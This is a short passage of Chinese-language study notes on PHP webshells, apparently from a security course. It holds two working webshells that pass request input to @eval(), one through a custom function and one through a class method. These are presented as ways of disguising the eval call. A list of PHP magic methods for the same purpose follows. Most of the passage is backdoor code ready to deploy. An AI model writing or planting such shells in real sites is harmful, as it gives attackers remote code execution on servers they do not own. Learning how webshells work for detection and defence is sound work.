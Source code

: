 ##### g. 自定义

###### ①自定义函数

```php
<?php
function admin($a){
    @eval($a);
}
admin($_REQUEST['admin']);
?>
```

![自定义函数](../../images/8-17-afternoon/自定义函数.png)

###### ②自定义类

```php
<?php
class Webshell{
    function admin($a){
        @eval($a);
    }
}
$web = new Webshell();
$web->admin($_REQUEST['admin']);
?>
```

![自定义类](../../images/8-17-afternoon/自定义类.png)

###### ③魔术方法

* __construct
* __destruct()
* __wakeup()
* __toString()
* ...
